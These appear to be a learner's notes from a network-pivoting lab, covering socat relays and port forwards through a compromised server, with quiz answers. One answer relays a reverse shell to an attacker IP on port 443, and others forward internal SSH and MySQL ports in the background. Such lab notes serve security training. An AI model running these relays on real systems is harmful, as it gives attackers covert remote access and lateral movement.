  ## This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

  ==> The request goes to 127.0.0.1:8000

  ==> Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001

  ==> Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.



  ## The process is then reversed when the target sends the response:
 
  ==> The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.

  ==> Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.


  Q1:  Which socat option allows you to reuse the same listening port for more than one connection?
  A: reuseaddr

  ## 

If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory? 

Q2: Use TCP port 8000 for the server listener, and do not background the process.
A:  ./socat tcp-l:8000 tcp:172.16.0.200:443

## hint: ./socat tcp-l:LISTEN_PORT tcp:ATTACKING_IP:ATTACKING_PORT

Q3: What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?
A: ./socat tcp-l:2222,fork,reuseaddr 172.16.0.100:22 &

## Hint easy method
command: ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &


## Optional question  Try to create an encrypted port forward or relay using the OPENSSL options in socat. Task 7 of the shells room may help with this.

As i have no subcription so i google it and i found this link to create encripted connetion using socat
